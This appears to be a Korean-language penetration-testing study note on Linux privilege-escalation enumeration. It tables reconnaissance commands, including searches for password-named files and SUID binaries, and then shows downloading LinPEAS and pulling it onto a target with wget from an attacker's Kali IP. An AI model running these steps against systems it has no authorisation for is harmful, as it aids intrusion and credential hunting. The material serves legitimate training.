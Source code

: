 
## ✅ 어떤 시스템이 있는가?

> 목적: 실행 중인 서비스, 프로세스, 설치된 소프트웨어 등을 기반으로 취약점 탐색 및 익스플로잇 가능성 분석

| 목적             | 명령어                                                                 |
|------------------|------------------------------------------------------------------------|
| 실행 중인 프로세스   | `ps faux`                                                               |
| 실행 중인 서비스    | `systemctl --type=service --state=running`                             |
| 열린 포트 및 세션   | `ss -ltnp`, `netstat -ltnpua`                                          |
| 설치된 소프트웨어 확인 | `dpkg --list`, `ls -alh /opt`                                        |
| 파일 탐색          | `ls -la /home`, `find / -type f -name "*pass*"`                        |
| 설정 파일 찾기      | `find /etc -name "*.conf" 2>/dev/null`                                 |
| 로그 파일 찾기      | `find /var/log -name "*.log" 2>/dev/null`                              |
| 777 권한 파일 찾기   | `find / -type f -perm 0777 2>/dev/null`                                |
| SUID 권한 파일 찾기 | `find / -type f -perm -4000 2>/dev/null`                               |
| 백도어 확인        | `crontab -l`, `ls /etc/cron*`                                          |

---

## ✅ 나는 어떤 권한을 갖고 있는가?

| 목적             | 명령어 |
|------------------|--------|
| 쓰기/실행 권한 확인 | `ls -l`, `getfacl <file>` |
| 권한 상승 가능성 탐색 | `sudo -l`, `linpeas.sh`, GTFOBins 활용 |

---

## 🚀 LinPEAS를 이용한 정보 수집 자동화

> 목적: 위의 명령어 요소들을 **자동화된 방식으로 빠르게 수집**하기 위해 사용

### 🔧 준비 사항

- 메모리상에서 스크립트를 직접 실행 (배포 불필요)
- 대상 시스템이 인터넷에 연결되어 있어야 함

### 🧪 실습 절차

1. **칼리에서 LinPEAS 다운로드**(curl 또는 wget 사용)
   `curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh > linpeas.sh`
  
2. **칼리에서 타겟으로 linpeas.sh 전송**
	주요 linpeas.sh(파일) 전송 방법
	| 방법       | 설명                                  |
	| -------- | ----------------------------------- |
	| **FTP**  | `put <파일>`                          |
	| **SSH**  | `scp <파일> <유저>@<호스트>`               |
	| **SMB**  | `smbclient` 이용 → `put <파일>`         |
	| **HTTP** | Kali에서 웹 서버 실행: `python3 -m http.server 8000` |
	             타겟에서 다운로드 : `wget http://<Kali IP>:8000/linpeas.sh` |
